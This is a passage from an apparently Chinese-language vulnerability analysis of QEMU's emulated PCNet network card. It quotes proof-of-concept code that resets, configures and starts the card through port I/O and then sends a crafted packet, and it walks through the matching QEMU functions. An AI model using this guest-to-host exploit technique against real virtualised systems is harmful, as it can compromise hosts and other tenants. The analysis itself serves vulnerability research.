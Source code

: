 可以看到当addr大于0x10时，会根据size的大小调用相对应的`pcnet_ioport_readw`以及`pcnet_ioport_readl`。

poc中关键代码如下：

```c
 				/* soft reset */
        inl(PCNET_PORT + 0x18);
        inw(PCNET_PORT + RST);

        /* set swstyle */
        outw(58, PCNET_PORT + RAP);
        outw(0x0102, PCNET_PORT + RDP);

        /* card config */
        outw(1, PCNET_PORT + RAP);
        outw(lo, PCNET_PORT + RDP);
        outw(2, PCNET_PORT + RAP);
        outw(hi, PCNET_PORT + RDP);

        /* init and start */
        outw(0, PCNET_PORT + RAP);
        outw(0x3, PCNET_PORT + RDP);

        sleep(2);

        pcnet_packet_send(&pcnet_tx_desc, pcnet_tx_buffer, pcnet_packet,
                          PCNET_BUFFER_SIZE);
```

首先是先调用`inl`以及`inw`去初始化网卡，在`readw`中0x14对应的会调用`pcnet_s_reset`函数，`readl`函数中`0x18`也会调用该函数。该函数会将网卡进行初始化，包括设置为16位模式以及设置状态为stop状态等。

```c
static void pcnet_s_reset(PCNetState *s)
{
    trace_pcnet_s_reset(s);

    s->rdra = 0;
    s->tdra = 0;
    s->rap = 0;

    s->bcr[BCR_BSBC] &= ~0x0080;  //设置16位模式

    s->csr[0]   = 0x0004;    //设置state为stop状态
    ...

    s->tx_busy = 0;
}
```

先看下`pcnet_ioport_writew`的定义：

```c
void pcnet_ioport_writew(void *opaque, uint32_t addr, uint32_t val)
{
    PCNetState *s = opaque;
    pcnet_poll_timer(s);
#ifdef PCNET_DEBUG_IO
    printf("pcnet_ioport_writew addr=0x%08x val=0x%04x\n", addr, val);
#endif
    if (!BCR_DWIO(s)) {
        switch (addr & 0x0f) {
        case 0x00: /* RDP */
            pcnet_csr_writew(s, s->rap, val);
            break;
        case 0x02:
            s->rap = val & 0x7f;
```